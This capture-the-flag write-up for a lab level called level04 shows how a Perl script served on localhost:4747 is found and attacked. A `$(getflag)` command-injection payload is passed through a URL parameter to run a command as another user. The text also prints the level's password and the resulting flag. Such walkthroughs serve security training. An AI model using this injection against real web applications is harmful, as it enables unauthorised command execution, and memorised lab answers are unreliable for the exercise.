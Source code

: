 # level04

## Vulnerability: Unchecked input leading to code injection

level04's password: `qi0maab88jeaj46qoumi7maus`

we got some intel from level00:

```shell
dr-xr-x---  2 flag04 level04  33 Mar 12  2016 level04
/var/www/level04
/rofs/var/www/level04
```

1. examinate existing files and permissions

```shell
ls -la
cat level04.pl
```

seems to indicate that a server is running on localhost:4747, and that the server is running as flag04

2. search for an apache webserver and examine it

```shell
service apache2 status
cat /etc/apache2/sites-enabled/level05.conf
cat /var/www/level04/level04.pl
```

shows that the root of the webserv is containing level04.pl and that the process is running as flag04

4. test the webserver for command injection

```shell
curl localhost:4747?x=exploit
```

prints `exploit` in terminal, meaning that we might inject some code

5. inject some code to pwn the flag

```shell
curl localhost:4747?x='$(getflag)'
```

gives flag: `ne2searoevaevoem4ov4ar8ap`
